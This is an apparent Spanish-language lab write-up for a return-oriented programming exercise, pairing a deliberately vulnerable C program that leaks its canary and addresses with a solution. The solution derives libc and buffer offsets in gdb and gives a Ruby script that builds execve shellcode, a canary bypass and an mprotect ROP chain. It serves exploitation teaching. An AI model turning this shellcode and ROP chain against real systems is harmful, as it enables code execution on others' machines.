






# ROP-02

**Objetivo**: Lograr ejecutar código arbitrario en el siguiente programa:

```c
// rop-02.c

#include <sys/types.h>
#include <sys/stat.h>
#include <stdint.h>
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <fcntl.h>

void aid() {
  asm("pop %rdi; ret");
  asm("pop %rsi; ret");
  asm("pop %rdx; ret");
}

int main(int argc, char **argv) {
    char x;
    char buffer[256];

    // Obtenemos el valor del base pointer.
    register uint64_t rbp asm("rbp");

    // Obtenemos el valor de la dirección de retorno.
    uint64_t *ret_addr = (uint64_t *)(rbp + 8);

    // Obtenemos el valor del canario.
    uint64_t canario = *(uint64_t *)(rbp - 8);

    printf("\n");
    printf("Explotando una vulnerabilidad de lectura obtenemos "
           "los siguientes valores:\n\n");

    printf("Canario:\n");
    printf("0x%lx\n\n", canario);

    printf("&x:\n");
    printf("%p\n\n", &x);

    printf("&exit:\n");
    printf("%p\n\n", exit);
    
    printf("&aid:\n");
    printf("%p\n\n", aid);

    printf("Inyectar shellcode en el stack y ejecutarlo.\n");
    getchar();
    
    int fd = open("/tmp/rop-02/input.bin", O_RDONLY);
    
    read(fd, &buffer, 512);
    return 0;
}
```


## Solución

Observaremos que este ejercicio es muy similar a [rop-01](../rop-01/rop-01.c), salvo por las direcciones con las que contamos. En este caso no contamos ni con la dirección de la función mprotect ni con la de nuestro buffer. Dichas direcciones son necesarias para el desarrollo de nuestro exploit por lo que será necesario obtenerlas de alguna forma.

Oportunamente, contamos con otras dos direcciones: la dirección de la función exit, y la dirección de la variable `x`. La primera es una dirección en el segmento en el que se encuentra mapeada la biblioteca estándar de C; la segunda es una dirección en el stack. Como habíamos visto en el [resumen de ASLR](../../mitigaciones/aslr/aslr.md), si bien la mitigación puede aleatorizar direcciones absolutas de una ejecución a otra, no puede aleatorizar distancias entre elementos en un mismo segmento.

Lo que haremos entonces es compilar este programa, abrirlo con gdb, poner un breakpoint en main, e iniciar la ejecución. Si hacemos eso y ejecutamos el comando "vmmap" de gef observaremos algo como lo siguiente:



Vemos que distintas secciones de la biblioteca de libc, provenientes del binario libc-2.27.so, están mapeadas desde `0x7ffff79e4000` hasta `0x7ffff7dd1000`. Si escribimos `print exit` observaremos que la dirección se encuentra efectivamente comprendida dentro de este rango:



Dado que el programa nos provee la dirección de la función exit, lo que podemos hacer es sumarle a esa dirección la distancia desde exit hasta mprotect para obtener la dirección de esta última. En gdb podemos ejecutar `print mprotect - exit` para obtener dicha distancia:



Dicha distancia es propia del binario libc-2.27.so de Ubuntu 18.04 Desktop x64; si nuestro information leak nos permite obtener una dirección en libc, digamos la de exit, y sabemos por un estudio previo que el sistema objetivo utiliza el mismo binario de libc, entonces podemos estimar que la función mprotect se encontrará en `&exit + 0xd89c0`.


De la misma forma podemos obtener la dirección de nuestro buffer. En este caso sabemos que la variable `x` se almacenará unos pocos bytes debajo de nuestro buffer. Para determinar cuántos bytes concretamente solo hace falta revisar el código assembly de main. Los bloques relevantes son los siguientes:

```
   0x00005555555548e6 <+143>:	lea    rax,[rbp-0x125]
   0x00005555555548ed <+150>:	mov    rsi,rax
   0x00005555555548f0 <+153>:	lea    rdi,[rip+0x1a2]        # 0x555555554a99
   0x00005555555548f7 <+160>:	mov    eax,0x0
   0x00005555555548fc <+165>:	call   0x5555555546f0 <printf@plt>
```

```
   0x0000555555554979 <+290>:	lea    rcx,[rbp-0x110]
   0x0000555555554980 <+297>:	mov    eax,DWORD PTR [rbp-0x124]
   0x0000555555554986 <+303>:	mov    edx,0x200
   0x000055555555498b <+308>:	mov    rsi,rcx
   0x000055555555498e <+311>:	mov    edi,eax
   0x0000555555554990 <+313>:	call   0x555555554700 <read@plt>
```

El primer bloque ejecuta la llamada a printf que muestra la dirección de x en pantalla. La dirección de la variable la pasamos en el registro rsi, que observamos tendrá el valor `rbp-0x125`. El segundo bloque realiza la llamada a read. La dirección del buffer la pasamos en el segundo argumento, en el registro rsi. Observamos que en este caso tendrá el valor `rbp-0x110`. La distancia desde la variable hacia el buffer es entonces `(rbp-0x110) - (rbp-0x125) = 0x125 - 0x110 = 0x15`.


Lo que podemos hacer entonces es tomar el script que habíamos utilizado para resolver rop-01 y modificarlo ligeramente.

```ruby
#!/usr/bin/ruby

# generate-input.rb

payload = 
"\x6a\x3b\x58\x99\x48\xbb\x2f\x62\x69\x6e\x2f\x73\x68\x00" +
"\x53\x48\x89\xe7\x68\x2d\x63\x00\x00\x48\x89\xe6\x52\xe8" +
"\x13\x00\x00\x00\x65\x63\x68\x6f\x20\x48\x65\x6c\x6c\x6f" +
"\x2c\x20\x77\x6f\x72\x6c\x64\x21\x00\x56\x57\x48\x89\xe6" +
"\x0f\x05".force_encoding("ASCII-8BIT")

p_len = payload.length

# Completar con el valor del canario
canary = 0x0

# Completar con la dirección de x
addr_x = 0x0
addr_buffer = addr_x + 0x15

# Completar con la dirección de exit
addr_exit = 0x0
addr_mprotect = addr_exit + 0xd89c0

# Completar con la dirección de aid
addr_aid = 0x0

# Completar con la cantidad de bytes desde el inicio del buffer
# hasta la dirección de retorno. Debe ser mayor a la longitud del payload + 16.
bytes_until_ret = 0x0

# Llenamos con bytes hasta llegar al canario.
fill_0 = ("\x90"*(bytes_until_ret - p_len - 16)).force_encoding("ASCII-8BIT")

# Ingresamos el el canario, y luego 8 bytes adicionales.
fill = fill_0 + [canary].pack(">Q") + ("\x90"*8).force_encoding("ASCII-8BIT")

# Generamos la cadena. Todos los valores estarán en formato little endian.
chain = [
    addr_aid + 4,
    addr_buffer & ~0xfff,
    addr_aid + 6,
    0x100,
    addr_aid + 8,
    0x7,
    addr_mprotect,
    addr_buffer
].pack(">Q*")

# Generamos el exploit.
puts payload.force_encoding("ASCII-8BIT") + fill + chain
```


Observaremos que el nuevo código es solo el siguiente:

```ruby
# Completar con la dirección de x
addr_x = 0x0
addr_buffer = addr_x + 0x15

# Completar con la dirección de exit
addr_exit = 0x0
addr_mprotect = addr_exit + 0xd89c0
```

Las direcciones del buffer y de mprotect se calculan ahora en base a las que nos son provistas. Lo que resta ahora es primero ejecutar el programa:




Luego reemplazamos los valores en el script y generamos la entrada. La cantidad de bytes desde el buffer hasta la dirección de retorno sigue siendo 0x118.




Si presionamos enter en la terminal donde rop-02 se está ejecutando deberíamos observar que nuestro shellcode se ejecuta exitosamente:




## Conclusión

Con este ejercicio hemos visto en más detalle como un information leak puede comprometer un programa. No hace falta obtener direcciones precisas mientras sea posible calcular las direcciones de elementos cercanos. Hay que tener en cuenta, sin embargo, que los offsets en segmentos de código dependen de cómo el binario en cuestión haya sido compilado. Eso incluye la versión del compilador, los flags, y por supuesto la versión del software siendo compilado.